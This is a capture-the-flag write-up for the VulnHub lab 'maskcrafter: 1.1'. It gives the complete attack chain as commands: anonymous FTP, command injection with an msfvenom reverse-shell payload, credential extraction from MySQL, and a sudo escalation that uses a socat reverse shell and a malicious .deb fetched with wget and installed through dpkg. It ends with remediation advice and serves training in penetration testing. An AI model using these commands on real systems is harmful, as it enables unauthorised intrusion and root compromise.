



# maskcrafter: 1.1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.110 (host-only) |
| **Attacker IP** | 192.168.1.112 |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Root Flag** | `/root/root.txt` |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/maskcrafter-11,547/) |

## Attack Summary

nmap → FTP anon (NOTES.txt + cred.zip + rce.php) → `/debug` web panel (admin:admin) → command injection via Burp → www-data → MySQL (cred.zip password) → SSH as userx → sudo chain (userx→evdaez via script, evdaez→resercherx via socat, resercherx→root via dpkg GTFObins)

## Methodology

1. Nmap — FTP, HTTP, NFS, RPC
2. FTP anonymous — files with credentials and hints
3. Web panel command injection
4. MySQL credential extraction
5. SSH + three-step sudo chain to root

---

## Step 1: Network Discovery

```bash
sudo netdiscover
nmap -A 192.168.1.110
```

Open ports: 21 (FTP), 22 (SSH), 80 (HTTP), 111 (RPC), 2049 (NFS).


---

## Step 2: FTP Anonymous Login

```bash
ftp 192.168.1.110
# Username: anonymous
# Password: (blank)
ls
cd pub
ls
get NOTES.txt
get cred.zip
get rce.php
bye
cat NOTES.txt
```

`NOTES.txt` reveals: web directory `/debug`, username `admin`.


---

## Step 3: Web Panel — Command Injection

Browse to `http://192.168.1.110/debug/index.php`. Login: **admin:admin**.

The panel executes three predefined commands (ifconfig, id, etc.) via a POST parameter. Intercept with Burp Suite and replace the command value with a reverse shell payload:

```bash
msfvenom -p cmd/unix/reverse_python lhost=192.168.1.112 lport=1234 -f raw
nc -lvp 1234
```

Paste the payload into Burp as the command parameter and forward the request.

```bash
# Shell stabilization
python -c 'import pty; pty.spawn("/bin/bash")'
id
# www-data
```



---

## Step 4: MySQL Credential Extraction

```bash
ls /var/www/debug/
cat /var/www/debug/db.php
# MySQL creds: web / P@ssw0rdweb

mysql -u web -p
# P@ssw0rdweb
show databases;
use mydatabase;
show tables;
select * from creds;
```

Table `creds` returns the password for `cred.zip`: **cred12345!!**

```bash
cd /tmp
unzip /path/to/cred.zip
# password: cred12345!!
cat cred.txt
# userx : thisismypasswordforuserx2020
```

---

## Step 5: SSH as userx

```bash
ssh userx@192.168.1.110
# password: thisismypasswordforuserx2020
sudo -l
# (evdaez) NOPASSWD: /scripts/whatsmyid.sh
```

---

## Step 6: sudo Chain — userx → evdaez → resercherx → root

**Step 6a: userx → evdaez via whatsmyid.sh**

Edit the script to spawn a shell:

```bash
echo '/bin/bash' > /scripts/whatsmyid.sh
sudo -u evdaez /scripts/whatsmyid.sh
id
# evdaez
sudo -l
# (resercherx) NOPASSWD: /usr/bin/socat
```

**Step 6b: evdaez → resercherx via socat**

On the attacker:

```bash
socat file:$(tty),raw,echo=0 tcp-listen:12345
```

On the target:

```bash
RHOST=192.168.1.112; RPORT=12345
sudo -u resercherx socat tcp-connect:$RHOST:$RPORT exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
sudo -l
# (root) NOPASSWD: /usr/bin/dpkg
```

**Step 6c: resercherx → root via dpkg (GTFOBins)**

On the attacker — build malicious .deb:

```bash
TF=$(mktemp -d)
echo 'exec /bin/sh' > $TF/x.sh
fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF
python3 -m http.server 8000
```

On the target:

```bash
cd /tmp
wget http://192.168.1.112:8000/x_1.0_all.deb
sudo dpkg -i x_1.0_all.deb
id
# root
cat /root/root.txt
```




---

## Lessons Learned

1. **FTP anonymous login** exposing credential files is a critical misconfiguration
2. **Hardcoded DB credentials** in web source (`db.php`) allow full database access
3. **Sudo chains** across multiple users — each lateral step expands the attack surface
4. **dpkg with sudo** allows arbitrary pre-install script execution — classic GTFOBins escalation

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| FTP anonymous write | Disable anonymous FTP; use key-based SFTP |
| Hardcoded DB credentials | Move credentials to environment variables or Vault |
| Weak admin:admin | Enforce password complexity; rotate defaults immediately |
| Unrestricted sudo per user | Principle of least privilege — no sudo for socat/dpkg |
